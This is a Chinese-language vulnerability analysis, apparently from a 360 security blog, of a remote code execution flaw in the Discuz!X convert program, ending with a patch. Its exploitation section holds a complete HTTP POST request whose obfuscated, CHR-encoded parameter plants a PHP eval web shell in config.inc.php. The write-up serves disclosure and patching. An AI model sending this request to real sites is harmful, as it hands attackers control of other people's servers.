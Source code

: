 # Discuz!X升级/转换程序GETSHELL漏洞分析

0x01 漏洞分析
---------

* * *

漏洞的根源在代码注释中出现换行，导致代码执行，流程如下:

### 0x0101 首先，从 index.php第30行跟入。

![enter image description here](http://drops.javaweb.org/uploads/images/b64e0f65627549cb9f74ed6a25e0de7b7215326c.jpg)

### 0x0102 do_config_inc.php的第37行，跟入这个save_config_file()函数。

![enter image description here](http://drops.javaweb.org/uploads/images/bff5f77c893d7f71058e2baffb8bf460c5e80a6a.jpg)

### 0x0103 gobal.func.php第624行，跟入这个getvars()函数。

![enter image description here](http://drops.javaweb.org/uploads/images/bc39233b90789df22577ad0daf345ff221dd9cb7.jpg)

### 0x0104 继续跟入buildarray()这个函数

![enter image description here](http://drops.javaweb.org/uploads/images/de3225c93798d885e59a44eb6d51990b9da86d58.jpg)

### 0x0105 漏洞出现在598行，这个$newline的问题。

![enter image description here](http://drops.javaweb.org/uploads/images/0d28bd612719335b3b9f4e61457c87f324fade5d.jpg)

这里因为$key可控，所以$newline可控，当$newline出现 或 时，导致BBB可以作为php代码执行。如图所示。

![enter image description here](http://drops.javaweb.org/uploads/images/86b98b90a384fecb71892a6b1fac421b240b2ce4.jpg)

0x02 漏洞利用
---------

* * *

可以构造如下请求：

```
POST /DZ2/convert/ HTTP/1.1
Host: 192.168.52.129
Proxy-Connection: keep-alive
Content-Length: 925
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: null
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8

a=config&source=d7.2_x2.0&submit=yes&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost&newconfig%5Bsource%5D%5Bdbuser%5D=root&newconfig%5Bsource%5D%5Bdbpw%5D=&newconfig%5Bsource%5D%5Bdbname%5D=discuz&newconfig%5Bsource%5D%5Btablepre%5D=cdb_&newconfig%5Bsource%5D%5Bdbcharset%5D=&newconfig%5Bsource%5D%5Bpconnect%5D=1&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Btarget%5D%5Bdbuser%5D=root&newconfig%5Btarget%5D%5Bdbpw%5D=&newconfig%5Btarget%5D%5Bdbname%5D=discuzx&newconfig%5Btarget%5D%5Btablepre%5D=pre_&newconfig%5Btarget%5D%5Bdbcharset%5D=&newconfig%5Btarget%5D%5Bpconnect%5D=1&submit=%B1%A3%B4%E6%B7%FE%CE%F1%C6%F7%C9%E8%D6%C3

```

发送这段请求直接getshell，恶意代码写入/convert/data/config.inc.php文件当中，如图所示。

![enter image description here](http://drops.javaweb.org/uploads/images/9caa2542738a65e5a046e4182b7574019eb351d6.jpg)

0x03 关于修复
---------

* * *

需要在global.func.php文件的buildarray函数中过滤掉$key中的非字母、数字及下划线字符，即添加代码如下：

```
$key = preg_replace("/[^w]/","", $key);

```

如图所示。

![enter image description here](http://drops.javaweb.org/uploads/images/9e2f76f6351411e0da174ea7f4596fdc9631428d.jpg)

（以上分析仅供学习交流，各DZ！X系列站长勿忘修复！）

以上为360网站安全中心博客文章，原文：[http://loudong.360.cn/blog/view/id/15](http://loudong.360.cn/blog/view/id/15)